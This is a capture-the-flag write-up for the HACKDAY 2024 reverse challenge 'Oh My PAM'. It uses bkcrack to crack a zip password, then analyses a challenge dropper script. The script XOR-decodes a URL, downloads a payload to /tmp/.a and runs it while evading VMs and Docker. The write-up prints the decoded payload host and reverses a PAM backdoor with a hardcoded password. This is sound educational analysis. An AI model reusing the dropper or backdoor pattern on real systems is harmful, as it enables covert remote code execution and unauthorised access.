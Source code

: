 ```yaml
---
title: "⚙️ Oh My PAM"
date: 2024-01-22T17:37:46+01:00
tags: ["CTF","Writeups","HACKDAY 2024 Qualification","⚙️ Reverse"]
author: "Sirius14"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "HACKDAY 2024 Qualification Reverse challenge by Chelinka"
summary:  "HACKDAY 2024 Qualification Reverse challenge by Chelinka"
disableHLJS: false # to disable highlightjs
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: false
ShowPostNavLinks: false
ShowWordCount: false
ShowRssButtonInSectionTermList: false
UseHugoToc: true
pygmentsUseClasses: true
pygmentsCodeFences: true
---
```


At the end of the Baby Web, you got a zip file. Find a way to retrieve its password and follow the steps until you find a password for the backdoor.

## First look

We have a zip file protected by a password, into this file there is 2 file :
- `DS.jpeg`
- `tool_retriever.py`

One good news is that we know what is DS.jpg, indeed at the end of Baby Web challenge we also have DS.jpg file.
In order to crack the zip we need to use [bkcrack](https://github.com/kimci86/bkcrack), with a known plaintext bkcrack can retrieve the key and brute force them to obtain the original password, or use them to create a new password
Our plaintext is not only DS.jpeg because in the zip file, DS.jpeg is compressed. So to have the compressed version we enter this command :

`zip compressed_image.zip DS.jpeg`

Then we can run bkcrack like this : 

`bkcrack -C SuperUltraTech30001.zip -c DS.jpeg -P compressed_image.zip -p DS.jpeg`

And here is the key : `3ea43676 82bd21a5 3f21d103`

With `bkcrack -k 3ea43676 82bd21a5 3f21d103 --bruteforce -r 10..15 ?p` we retrieve the original password : `Super5MDP7768`

P.S : We could replace the password but as you can see later original password is required

## Retreive backdoor

For the next step we can analyze tool_retriver.py

{{<highlight txt>}}
def is_inside_linux():
    return os.name == 'posix'

# Some code ...

def load_p2():
	key = (os.name + getuser() + sys.argv[1]).encode() # Пароль для zip-файла
	address = [47,7,7,29,8,72,64,64,65,98,91,66,84,66,27,124,116,102,25,6,3,12,95,28,7,8,12,27,12,64,7,38,5,21,23,31,84,33,51,49,69,82,24,93,8,10]
	addr = xor(key, address)
	if addr[1:5] == "http":
		r = requests.get(addr[1:]) # Add password or some shit to download it bruh
		with open("/tmp/.a", "wb") as f:
			f.write(r.content)
		subprocess.Popen(["/tmp/.a", detach=True])
	

if __name__ == "__main__":
    load_p2()
    if len(sys.argv) == 2 and is_inside_linux() and not is_inside_docker() and not is_inside_vm() and has_internet_access():
    	print("It works !")
    else:
    	try:
    		subprocess.check_output(['rm','tool_retriever.py','SuperUltraTech30001.zip'])
    	except subprocess.CalledProcessError:
    		pass
{{</highlight>}}

Here are the 3 useful functions, backdoor file is located at a url, and this address is xor with key. We can found this key like this :
- os.name -> `posix` (main condition)
- getuser() -> `root` (load_p2 condition)
- sys.argv[1] -> `Super5MDP7768` (russian commentary)

Key is : `posixrootSuper5MDP7768`
Xoring this key with address tab and we have url:

`http://51.210.106.154/static/r`

## Analysis

This file in bash script with base64 encoded part in which the real backdoor is downloaded, so we recover the real backdoor binary. Let's open IDA to reverse it.
We need to find password which enable this backdoor, and challenge title contains PAM. Thus we search function with name like pam authentication or someting like that.

Bingo, once disassembled we have a function named : `pam_sm_authenticate`

![disassembled function](/Sirius14_Blog/img/writeups/oh-my-pam_1.png)

This part was very interesting, we can understand that pam authentication token is stock into s1 with this line :

`pam_get_authtok(a1,6LL,&s1,0LL)`

Then s1 is compared to `.gnu.version_r`, it seems to be an unusual password but try it.

It is the right password flag is : __HACKDAY{.gnu.version_r}__ 
